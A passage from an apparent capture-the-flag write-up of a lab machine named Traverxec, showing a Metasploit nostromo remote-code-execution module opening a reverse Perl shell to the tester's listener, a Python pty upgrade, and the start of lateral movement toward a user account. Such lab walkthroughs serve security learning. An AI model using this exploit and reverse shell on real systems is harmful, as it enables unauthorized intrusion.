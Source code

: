 <img src="/assets/images/traverxec/metasploit.png">

After running the module we have access as www-data:

```
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.15.200:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.15.200:4444 -> 10.10.10.165:36028) at 2019-12-02 10:56:50 +0000
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$

```

## Lateral  Movement: www-data --> david

After checking the system and looking for the user.txt flag, I found a user david but couldn't list the contents of if home directory

<img src="/assets/images/traverxec/david-home.png">
